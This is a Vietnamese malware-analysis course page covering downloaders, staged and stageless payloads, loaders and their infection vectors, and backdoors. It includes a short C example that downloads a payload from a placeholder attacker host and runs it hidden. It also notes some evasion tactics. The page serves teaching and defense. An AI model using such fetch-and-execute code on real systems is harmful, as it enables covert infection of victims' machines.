

repository: vuongdat67/silver-happiness · page: posts/course/se6/nt137/L5/index.html · generator: mkdocs

# Bài 5: Malware Behavior

## 1. Downloaders và Launchers

### 1.1 Downloaders

Downloader là loại malware có nhiệm vụ tải về một malware khác từ internet và thực thi nó trên hệ thống nạn nhân. Đây là một trong những loại malware phổ biến nhất trong giai đoạn đầu của chuỗi tấn công (infection chain).

**Windows API thường dùng:**

```c
URLDownloadToFileA(NULL, "http://attacker.com/payload.exe", "C:\\temp\\payload.exe", 0, NULL);
WinExec("C:\\temp\\payload.exe", SW_HIDE);
```

**Staged vs Stageless:**

=== "Stageless"
    Toàn bộ payload được nhúng trực tiếp vào file malware. Khi thực thi, reverse shell hoặc payload kết nối thẳng về máy attacker mà không cần tải thêm gì.

    - **Ưu điểm:** Đơn giản, không cần kết nối C2 để lấy stage 2
    - **Nhược điểm:** File lớn hơn, dễ bị phát hiện bởi AV hơn

=== "Staged"
    Dropper (stage 1) nhỏ gọn, chỉ có nhiệm vụ beacon về C2 Server để tải về và inject stage 2 (payload thực sự) vào bộ nhớ.

    - **Ưu điểm:** File nhỏ, khó phát hiện hơn, payload không lưu trên disk
    - **Nhược điểm:** Cần kết nối mạng để hoạt động, dễ bị chặn ở network layer

```mermaid
sequenceDiagram
    participant V as Victim
    participant C2 as C2 Server
    V->>C2: Dropper beacons out (stage 1)
    C2-->>V: Download & inject stage 2
    V->>C2: Reverse Shell Established
```

---

### 1.2 Launchers (Loaders)

Launcher (hay còn gọi là Loader) là malware chuẩn bị và thực thi một malware khác theo cách bí mật (covert execution), có thể ngay lập tức hoặc vào thời điểm sau. Điểm đặc biệt là loader thường **lưu trữ payload ở những nơi bất ngờ** như section `.rsrc` của PE file.

**Các vector lây nhiễm phổ biến của Loaders:**

- **ISO files** chứa các file khác (ZIP, LNK)
- **ZIP files** chứa ISO, LNK, DLL
- **LNK (shortcut) files** trỏ đến payload
- **HTML files** chứa JavaScript và DLL nhúng bên trong

**Công cụ thường dùng bởi Loaders:**

- Commercial tools: Cobalt Strike, Brute Ratel
- LOLBins (Living-off-the-Land Binaries): `PowerShell`, `regsvr32.exe`, `rundll32.exe`, `curl.exe`, `calc.exe`

!!! note "Lịch sử"
    Trước đây, loaders thường lây qua macro độc hại trong Microsoft Office. Từ khi Microsoft tăng cường bảo mật Office, loaders chuyển sang các vector khác như ISO, LNK, HTML.

---

## 2. Backdoors

Backdoor cung cấp quyền truy cập từ xa vào máy nạn nhân. Đây là **loại malware phổ biến nhất**.

**Đặc điểm:**

- Thường giao tiếp qua HTTP trên **Port 80** để trốn tránh firewall
- Network signatures rất hữu ích cho việc phát hiện
- Các khả năng thông thường: thao tác Registry, liệt kê cửa sổ, tạo thư mục, tìm kiếm file, v.v.

---
